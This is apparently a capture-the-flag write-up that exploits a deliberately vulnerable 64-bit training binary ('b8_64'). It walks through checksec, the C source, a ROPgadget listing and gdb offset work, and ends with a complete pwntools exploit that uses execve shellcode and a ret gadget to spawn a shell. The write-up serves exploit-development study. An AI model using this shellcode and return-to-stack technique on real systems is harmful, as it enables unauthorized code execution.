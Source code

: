 Let's see if this file has any binary hardening systems in place using pwntools.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b8_64$ pwn checksec b8_64
[*] '/Hackery/escape/buf_ovf/b8_64/b8_64'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
```

So that would be a no. Let's check out the code...

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b8$ cat b8.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void the_horror()
{
	unsigned int ret_adr;
	char buf0[40];
	fgets(buf0, 100, stdin);
	ret_adr = __builtin_return_address(0);

	if ((ret_adr & 0xf0000000) == 0xf0000000)
	{
		printf("Don't you have anything better to do? Clearly not.\n");
		exit(0);
	}
	printf("That's it, if you don't get back to your work at %p, we will have to deploy the mechs.\n", ret_adr);
}

int main()
{
	printf("Corrective solutions aren't working. We might have to upgrade.\n");
	the_horror();
}
```

First off we see that it is pretty similar to the previous challenge, as it implements the same check as the previous problem. So we won't be able to directly hit the rip register with an address that could store our input, or from libc. However it does not have the strdup() call the previous one had, so we will not be able to simply call the eax register. However we can still push shellcode to the stack, and execute it if we find a way. We will have to implement a ROP (return oriented programming) exploit in order to execute shellcode that we push onto the stack. Thing is the check it does only checks the value of the eip register, not what's before after or anything else. If we were to push a ROP gadget to the eip register that ended with a "ret" instruction, the parameter for the return instruction will be the address directly after it since stacks grow towards lower addresses and our overflow works towards higher addresses. As a result the "ret" instruction will have the program jump to whatever instruction is placed immediatley after it. So we can just push shellcode to the program, hit the rip register to have a ROP gadget address that just has the "ret" instruction, store the address of our input that has the shellcode immediately after it, and we should have a shell. One thing I would like to mention, typically with ROP before you return you will need to clean the stack by having the gadget use several "pop" instructions to clear the stack for the new code to execute properly. Here the shellcode will take care of it so we don't have to worry about it (you will in future challenges). Now let's find our ROP Gadget.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b8_64$ ROPgadget --binary b8_64 | grep ret
0x00000000004006ff : add bl, dh ; ret
0x00000000004006fd : add byte ptr [rax], al ; add bl, dh ; ret
0x00000000004006fb : add byte ptr [rax], al ; add byte ptr [rax], al ; add bl, dh ; ret
0x000000000040056c : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x00000000004006fc : add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x000000000040048b : add byte ptr [rax], al ; add rsp, 8 ; ret
0x000000000040056e : add byte ptr [rax], al ; pop rbp ; ret
0x00000000004006fe : add byte ptr [rax], al ; ret
0x00000000004005d8 : add byte ptr [rcx], al ; ret
0x00000000004005d4 : add eax, 0x2005ae ; add ebx, esi ; ret
0x00000000004005d6 : add eax, 0xf3010020 ; ret
0x00000000004005d9 : add ebx, esi ; ret
0x000000000040048e : add esp, 8 ; ret
0x000000000040048d : add rsp, 8 ; ret
0x00000000004005d7 : and byte ptr [rax], al ; add ebx, esi ; ret
0x00000000004006dc : fmul qword ptr [rax - 0x7d] ; ret
0x0000000000400489 : jae 0x400493 ; add byte ptr [rax], al ; add rsp, 8 ; ret
0x0000000000400665 : leave ; ret
0x00000000004005d3 : mov byte ptr [rip + 0x2005ae], 1 ; ret
0x000000000040067f : mov eax, 0 ; pop rbp ; ret
0x0000000000400664 : nop ; leave ; ret
0x0000000000400568 : nop dword ptr [rax + rax] ; pop rbp ; ret
0x00000000004006f8 : nop dword ptr [rax + rax] ; ret
0x00000000004005b5 : nop dword ptr [rax] ; pop rbp ; ret
0x00000000004006ec : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006ee : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006f0 : pop r14 ; pop r15 ; ret
0x00000000004006f2 : pop r15 ; ret
0x00000000004005d2 : pop rbp ; mov byte ptr [rip + 0x2005ae], 1 ; ret
0x00000000004006eb : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006ef : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400570 : pop rbp ; ret
0x00000000004006f3 : pop rdi ; ret
0x00000000004006f1 : pop rsi ; pop r15 ; ret
0x00000000004006ed : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400491 : ret
0x00000000004005d5 : scasb al, byte ptr [rdi] ; add eax, 0xf3010020 ; ret
0x0000000000400705 : sub esp, 8 ; add rsp, 8 ; ret
0x0000000000400704 : sub rsp, 8 ; add rsp, 8 ; ret
0x000000000040056a : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x00000000004006fa : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; ret
```

So looking through this list, we see the gadget we want.

```
0x0000000000400491 : ret
```

So we will replace the address stored in the rip register with 0x0000000000400491. Now to find the offset.

```
gdb-peda$ disas the_horror
Dump of assembler code for function the_horror:
   0x0000000000400606 <+0>: push   rbp
   0x0000000000400607 <+1>: mov    rbp,rsp
   0x000000000040060a <+4>: sub    rsp,0x30
   0x000000000040060e <+8>: mov    rdx,QWORD PTR [rip+0x20056b]        # 0x600b80 <stdin@@GLIBC_2.2.5>
   0x0000000000400615 <+15>:  lea    rax,[rbp-0x30]
   0x0000000000400619 <+19>:  mov    esi,0x64
   0x000000000040061e <+24>:  mov    rdi,rax
   0x0000000000400621 <+27>:  call   0x4004e0 <fgets@plt>
   0x0000000000400626 <+32>:  mov    rax,QWORD PTR [rbp+0x8]
   0x000000000040062a <+36>:  mov    DWORD PTR [rbp-0x4],eax
   0x000000000040062d <+39>:  mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000400630 <+42>:  and    eax,0xf0000000
   0x0000000000400635 <+47>:  cmp    eax,0xf0000000
   0x000000000040063a <+52>:  jne    0x400650 <the_horror+74>
   0x000000000040063c <+54>:  mov    edi,0x400718
   0x0000000000400641 <+59>:  call   0x4004b0 <puts@plt>
   0x0000000000400646 <+64>:  mov    edi,0x0
   0x000000000040064b <+69>:  call   0x4004f0 <exit@plt>
   0x0000000000400650 <+74>:  mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000400653 <+77>:  mov    esi,eax
   0x0000000000400655 <+79>:  mov    edi,0x400750
   0x000000000040065a <+84>:  mov    eax,0x0
   0x000000000040065f <+89>:  call   0x4004c0 <printf@plt>
   0x0000000000400664 <+94>:  nop
   0x0000000000400665 <+95>:  leave  
   0x0000000000400666 <+96>:  ret    
End of assembler dump.
gdb-peda$ b *the_horror+32
Breakpoint 1 at 0x400626
gdb-peda$ r
Starting program: /Hackery/escape/buf_ovf/b8_64/b8_64 
Corrective solutions aren't working. We might have to upgrade.
75395128
```

One wall of text later...

```
Breakpoint 1, 0x0000000000400626 in the_horror ()
gdb-peda$ x/s $rbp-0x30
0x7fffffffde20: "75395128\n"
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffde60:
 rip = 0x400626 in the_horror; saved rip = 0x40067f
 called by frame at 0x7fffffffde70
 Arglist at 0x7fffffffde50, args: 
 Locals at 0x7fffffffde50, Previous frame's sp is 0x7fffffffde60
 Saved registers:
  rbp at 0x7fffffffde50, rip at 0x7fffffffde58
```

And now to fight some bunny...

```
>>> 0x7fffffffde58 - 0x7fffffffde20
56
>>> 56 - 27
29
```

So we will be using the same shellcode from b5_64, so we will only need 29 characters worth of padding (since the shellcode takes up 27). We also have the relative location of the input (which if you were to run the exploit in gdb with that address it would work just fine). Here are the address I tried before I reached the correct address.

```
0x7fffffffde20
0x7fffffffde30
0x7fffffffde40
0x7fffffffde50
```

With all of the information we have collected, I present my exploit.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b8_64$ cat exploit.py 
#Import pwntools
from pwn import *

#Start the target Process
target = process("./b8_64")

#Read first line of text
print target.recvline()

#Store shellcode in variab;e
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

#Construct padding
offset = "1"*29

#Declare ROP gadget
ROP = p64(0x0000000000400491)

#Declare address of our shellcode
adr = p64(0x7fffffffde50)

#Construct the payload
payload = shellcode + offset + ROP + adr

#Write the payload to a file for gdb purposes
p = open("in", "w")
p.write(payload)

#Send the payload
target.sendline(payload)

#Drop to an interactive shell
target.interactive()
```

Let's test it out...

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b8_64$ python exploit.py 
[+] Starting local process './b8_64': Done
Corrective solutions aren't working. We might have to upgrade.

[*] Switching to interactive mode
That's it, if you don't get back to your work at 0x400491, we will have to deploy the mechs.
$ ls
b8_64     core         in   peda-session-b8_64.txt
b8_64.c  exploit.py  out  peda-session-dash.txt
$ cat out
That's it, bring out the mechs. Just remember, you asked for this. Level Cleared!
$ exit
[*] Got EOF while reading in interactive
$ exit
[*] Process './b8_64' stopped with exit code 0
[*] Got EOF while sending in interactive
```

Just like that, we pwned the binary. 

